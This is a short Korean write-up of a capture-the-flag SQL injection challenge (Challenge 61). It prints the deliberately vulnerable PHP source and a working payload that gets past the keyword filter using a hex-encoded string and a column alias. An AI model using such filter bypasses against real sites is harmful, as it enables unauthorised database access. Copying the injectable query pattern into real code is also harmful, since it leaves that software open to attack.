 # SQLi

```php+HTML
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
  $db = dbconnect();
  if(!$_GET['id']) $_GET['id']="guest";
  echo "<html><head><title>Challenge 61</title></head><body>";
  echo "<a href=./?view_source=1>view-source</a><hr>";
  $_GET['id'] = addslashes($_GET['id']);
  if(preg_match("/\(|\)|select|from|,|by|\./i",$_GET['id'])) exit("Access Denied");
  if(strlen($_GET['id'])>15) exit("Access Denied");
  $result = mysqli_fetch_array(mysqli_query($db,"select {$_GET['id']} from chall61 order by id desc limit 1"));
  echo "<b>{$result['id']}</b><br>";
  if($result['id'] == "admin") solve(61);
  echo "</body></html>";
?>
```

id파라미터가 없으면 자동 id=guest가 된다.

마지막 쿼리문을 보자. 입력받은 id를 검색할때, id칼럼을 내림차순으로 정렬하고 젤 위에 있는거를 가져온다.

```sql
select {$_GET['id']} from chall61 order by id desc limit 1
```

?id='admin' from chall61-- 넣으면 

```sql
select 'admin' from chall61-- from chall61 order by id desc limit 1
```

해결될거라 생각했으나 아니었다.
from이 필터링되고 있고, ''같은 따옴표가 addslash에 의해 이스케이프가 붙는다. 

SQL에는 alias라는 기능이 있다. 
테이블에 별칭을 부여하고 그 별칭으로 접근을 할 수 있게 하는 기능이다. 

일단, admin을 따옴표없이 넣어주기 위해 16진법으로 바꾼다.
그리고 id alias를 해서 다음과 같은 payload를 인젝트한다.

```
?id=0x61646d696e as id -- 문자길이 초과, as는 생략가능
?id=0x61646d696e id
```



> SQL 우회기법으로 alias를 사용하는 방법
> SQL 공부좀 하자..